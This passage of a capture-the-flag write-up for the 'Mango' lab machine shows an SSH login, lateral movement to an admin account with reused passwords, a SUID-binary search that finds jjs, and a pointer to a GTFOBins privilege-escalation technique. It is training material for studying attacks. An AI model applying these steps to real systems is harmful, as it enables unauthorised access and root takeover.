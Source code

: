 Connected via SSH as the ‘mango’ user.

```
ssh mango@10.129.229.185
mango@mango:~$ whoami
mango

mango@mango:~$ id
uid=1000(mango) gid=1000(mango) groups=1000(mango)
```

# Lateral Movement

There is another user besides us. 

```
mango@mango:~$ ls -l /home
total 8
drwxr-xr-x 2 admin admin 4096 Oct 23  2023 admin
drwxr-xr-x 4 mango mango 4096 Oct 23  2023 mango
```

Moved laterally by using the passwords obtained from the exploitation phase.

```
mango@mango:~$ su - admin
$ bash

admin@mango:/home/admin$ whoami
admin

admin@mango:/home/admin$ id
uid=4000000000(admin) gid=1001(admin) groups=1001(admin)
```

# PrivEsc

Listing SUID binaries shows an odd match.

```
admin@mango:/home/admin$ find / -type f -perm /2000 2>/dev/null -exec ls -l {} \; | grep -v snap
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
-rwxr-sr-x 1 root shadow 34816 Apr  5  2018 /sbin/pam_extrausers_chkpwd
...
```

[GTFOBins](https://gtfobins.github.io/gtfobins/jjs/) has a PoC to escalate privileges.

<img src="/assets/img/mango/Untitled 10.png" alt="Untitled 10.png" style="width:800px;">

